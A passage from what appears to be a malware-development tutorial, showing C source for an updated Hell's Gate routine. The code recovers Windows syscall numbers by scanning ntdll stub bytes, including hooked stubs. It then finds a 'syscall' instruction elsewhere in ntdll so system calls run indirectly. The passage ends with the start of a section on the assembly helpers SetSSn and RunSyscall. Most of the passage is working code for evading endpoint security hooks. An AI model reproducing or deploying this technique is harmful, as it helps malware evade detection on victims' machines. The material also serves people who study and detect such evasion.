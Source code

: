 ```
                        && *((PBYTE)pFuncAddress + 3 + idx * UP) == 0xB8
                        && *((PBYTE)pFuncAddress + 6 + idx * UP) == 0x00
                        && *((PBYTE)pFuncAddress + 7 + idx * UP) == 0x00) {

                        BYTE high = *((PBYTE)pFuncAddress + 5 + idx * UP);
                        BYTE low = *((PBYTE)pFuncAddress + 4 + idx * UP);
                        pNtSys->dwSSn = (high << 8) | low + idx;
                        break; // break for-loop [idx]
                    }
                }
            }

            break; // break for-loop [i]
        }

    }

//-----------------------------------------------------------------------------------------------------------------------
// updated part //

    if (!pNtSys->pSyscallAddress)
        return FALSE;

    // looking somewhere random (0xFF byte away from the syscall address)
    ULONG_PTR uFuncAddress = (ULONG_PTR)pNtSys->pSyscallAddress + 0xFF;

    // getting the 'syscall' instruction of another syscall function
    for (DWORD z = 0, x = 1; z <= RANGE; z++, x++) {
        if (*((PBYTE)uFuncAddress + z) == 0x0F && *((PBYTE)uFuncAddress + x) == 0x05) {
            pNtSys->pSyscallInstAddress = ((ULONG_PTR)uFuncAddress + z);
            break; // break for-loop [x & z]
        }
    }

//-----------------------------------------------------------------------------------------------------------------------

    if (pNtSys->dwSSn != NULL && pNtSys->pSyscallAddress != NULL && pNtSys->dwSyscallHash != NULL && pNtSys->pSyscallInstAddress != NULL)
        return TRUE;
    else
        return FALSE;

}

```
### **Updating SetSSn And RunSyscall**

Recall the updated assembly functions in the previous module, `SetSSn` and `RunSyscall`. Both functions were used to initiate a syscall in the updated Hell's Gate implementation.
